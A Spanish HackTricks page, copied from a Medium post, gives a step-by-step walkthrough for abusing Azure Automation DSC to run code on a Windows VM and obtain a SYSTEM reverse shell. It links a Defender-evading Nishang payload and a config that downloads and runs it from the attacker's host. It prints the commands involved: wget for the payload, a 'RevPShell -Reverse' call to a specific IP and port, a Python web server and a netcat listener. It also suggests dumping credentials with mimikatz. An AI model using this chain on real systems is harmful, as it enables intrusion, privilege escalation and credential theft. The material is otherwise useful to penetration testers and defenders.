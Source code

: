 # Az - State Configuration RCE

<details>

<summary><strong>Aprende hacking en AWS de cero a héroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si quieres ver a tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF**, consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Consigue el [**merchandising oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de GitHub de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

**Este post fue copiado de** [**https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe**](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)

### Preparación de la Infraestructura del Servidor Remoto (C2) <a href="#f0fa" id="f0fa"></a>

Estaré alojando una versión simplificada del payload Nishang Invoke-PowerShellTcp.ps1 desde el servidor remoto "40.84.7.74", que es la caja de Kali. El nombre del payload será "RevPS.ps1". Para evitar que el script de Nishang sea eliminado por Windows Defender por cualquier motivo (quizás prefieras dejar el archivo en el disco), aquí tienes una versión ligera que puedes usar y que evitará a Defender: [https://github.com/nickpupp0/AzureDSCAbuse/blob/master/RevPS.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/RevPS.ps1). Esto será alojado por un simple Servidor Python Simple en la caja de Kali.

### Paso 1 — Crear Archivos <a href="#89de" id="89de"></a>

Necesitaremos crear otro archivo de configuración DSC. Una plantilla se puede descargar aquí: [https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse\_shell\_config.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse\_shell\_config.ps1). Este archivo de configuración utilizará la misma función de escritura de archivos que usamos anteriormente. Esta vez, el contenido incluye código para descargar y ejecutar un payload desde nuestro servidor remoto. Además, estamos utilizando una función de tarea programada disponible desde el módulo _ComputerManagementDsc_. La función de tarea programada jugará un papel clave en la ejecución y nos proporcionará privilegios de SYSTEM más adelante.

También descargaremos un script que se utilizará para publicar nuestra configuración en la VM. Se encuentra aquí: [https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push\_reverse\_shell\_config.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push\_reverse\_shell\_config.ps1).

Estos archivos servirán como plantilla. **Necesitarás completar los nombres de las variables y los parámetros con lo que estés utilizando**. Esto incluye los nombres de los recursos, las rutas de los archivos y los nombres del servidor/payload externo que estés utilizando. Por favor, consulta los comentarios en el código.

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

### Paso 2 — Comprimir el Archivo de Configuración <a href="#c2c2" id="c2c2"></a>

Con nuestros dos archivos creados, comprimiremos el archivo **‘reverse\_shell\_config.ps1’** para que pueda ser enviado a la Cuenta de Almacenamiento
```
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
<figure><img src="../../../../.gitbook/assets/image (38).png" alt=""><figcaption></figcaption></figure>

### Paso 3 — Establecer Contexto de Almacenamiento y Subir <a href="#bed9" id="bed9"></a>

De nuevo, configuraremos el contexto de nuestra Cuenta de Almacenamiento, lo cual ya he hecho. Ya tengo un contenedor llamado '**azure-pentest**', así que aquí es donde publicaré el mío:
```
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
### Paso 4 — Preparar Kali Box <a href="#20fb" id="20fb"></a>

En nuestra Kali box, podemos simplemente usar _wget_ para obtener nuestro payload de PowerShell. El script de reverse-shell en bruto se encuentra aquí: [https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1](https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1).
```
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
```markdown
<figure><img src="../../../../.gitbook/assets/image (8) (2).png" alt=""><figcaption></figcaption></figure>

Necesitamos editar el script de reverse-shell añadiendo nuestros parámetros, para que la VM de Windows sepa a dónde conectarse una vez que se ejecute. En mi caso añado lo siguiente:
```
```
RevPShell -Reverse 40.84.7.73 443
```
### Paso 5 — Publicar Archivo de Configuración <a href="#9ad6" id="9ad6"></a>

Ahora ejecutaremos nuestro archivo de configuración. Tengo el mío configurado para ser publicado en el Escritorio para una mejor visualización, sin embargo, puede ser publicado casi en cualquier lugar. Después de un par de minutos, veremos que el script de reverse-shell ¡ha sido publicado!

### Paso 6 — Alojar Payload y Configurar Listener <a href="#c55f" id="c55f"></a>

Una vez que publiquemos la configuración, podemos iniciar simultáneamente un Python SimpleHTTPServer sobre el puerto 80 para alojar el payload, junto con un listener de netcat para capturar la conexión:
```
sudo python -m SimpleHTTPServer 80sudo nc -nlvp 443
```
Observamos que la tarea programada se ha ejecutado y nuestro payload fue recuperado y ejecutado en memoria con privilegios de nivel **SYSTEM**.

<figure><img src="../../../../.gitbook/assets/image (1) (3) (1).png" alt=""><figcaption></figcaption></figure>

### Conclusión <a href="#1ec2" id="1ec2"></a>

Esto abre la puerta a muchas posibilidades. Dado que tenemos una shell ejecutándose como **SYSTEM**, podemos volcar credenciales con mimikatz (potencialmente arriesgado dependiendo de la madurez del EDR para recursos en la nube). Si volcas credenciales, hay una buena posibilidad de que estas puedan reutilizarse en diferentes recursos. Por último, una gran lección es que, en lugar de limitar esto a una VM, ahora tienes la capacidad de aplicar potencialmente esta configuración en múltiples VMs.

Con esto, concluimos nuestras aventuras con Azure Automation DSC. ¡Espero que te hayas divertido, aprendido mucho y continúes expandiendo con tu propia creatividad!

<details>

<summary><strong>Aprende hacking en AWS de cero a héroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si quieres ver a tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF** consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Consigue el [**merchandising oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de github** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
